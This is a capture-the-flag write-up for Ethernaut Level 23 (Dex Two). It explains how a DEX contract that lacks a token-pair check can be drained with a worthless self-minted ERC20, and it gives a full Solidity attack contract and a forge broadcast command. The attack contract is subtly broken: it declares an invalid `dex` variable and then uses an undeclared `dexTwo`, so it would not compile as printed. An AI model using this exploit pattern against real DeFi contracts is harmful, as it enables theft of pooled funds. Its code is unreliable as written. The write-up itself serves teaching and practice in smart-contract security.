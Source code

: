 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/23-dexTwo.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 23 - Dex Two</strong></h1>

</div>

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Objectif](#objectif)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)

## Objectif

<img src="../assets/requirements/23-dexTwo-requirements.webp" width="800px"/>

## The hack

The DexTwo contract is interesting. It is almost exactly the same as the previous one, but this time our goal is to drain the reserves of <b>both</b> tokens! In reality, this is even simpler... First, let's try to find the differences between the two contracts.

In fact, there is only 1 difference, in the `swap()` function:

```javascript
function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapPrice(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  }
```

The following requirement has been removed:

```javascript
require((from == token1 && to == token2) ||
  (from == token2 && to == token1), "Invalid tokens");
```

So basically, the contract is no longer validating the tokens that are being swapped. This means that we can swap any token for any other token, and the contract will not complain. Good for us! This is a huge vulnerability, and we can use it to drain the reserves of both tokens very easily, and for free :)

Let's create a new useless token that will be used as `tokenIn` to feed the DexTwo contract while we empty its `tokenOut` reserves. Something simple inherited from OpenZeppelin's ERC20 contract will do just fine:

```javascript
contract FreeToken is ERC20 {
    constructor(address _dexterTwo) ERC20("FreeToken", "FTK") {
        _mint(_dexterTwo, 10000000 * 10 ** decimals());
    }
}
```

Next, we have to make sure everything is set correctly, and that all approvals are in place. After that, we send 100 FreeToken to the DexTwo contract to simulate an existing reserve. And we will finally be able to drain the reserves of both tokens in exchange for our FreeToken!

- The first swap will be of 100 FreeTokens for `token1`. This will empty the reserves of token1.
- The second swap will be of 200 FreeTokens for `token2`. This will empty the reserves of `token2`.

## Solution

Here is the full solution:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";

interface IDexTwo {
    function token1() external returns (address);
    function token2() external returns (address);
    function swap(address from, address to, uint256 amount) external;
    function approve(address spender, uint256 amount) external;
    function balanceOf(
        address token,
        address account
    ) external view returns (uint256);
}

contract FreeToken is ERC20 {
    constructor(address _dexterTwo) ERC20("FreeToken", "FTK") {
        _mint(_dexterTwo, 10000000 * 10 ** decimals());
    }
}

contract DexterTwo {
    IDexTwo private immutable dex = IDexTwo;
     address private immutable token1;
    address private immutable token2;
    address private freeToken;

    constructor(address _dexTwo) {
        dexTwo = IDexTwo(_dexTwo);
        token1 = dexTwo.token1();
        token2 = dexTwo.token2();
    }

    function setFreeToken(address _freeToken) public {
        freeToken = _freeToken;
    }

    function attack() public {
        dexTwo.approve(address(dexTwo), type(uint256).max);
        IERC20(freeToken).approve(address(dexTwo), type(uint256).max);
        IERC20(freeToken).transfer(address(dexTwo), 100);

        dexTwo.swap(freeToken, token1, 100);
        dexTwo.swap(freeToken, token2, 200);

        require(
            IERC20(token1).balanceOf(address(dexTwo)) == 0 &&
                IERC20(token2).balanceOf(address(dexTwo)) == 0,
            "Hack failed!"
        );
    }
}
```

You can run the script with the following command:

```bash
forge script script/23_DexTwo.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

## Takeaway

- Always validate the sensitive inputs properly.

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
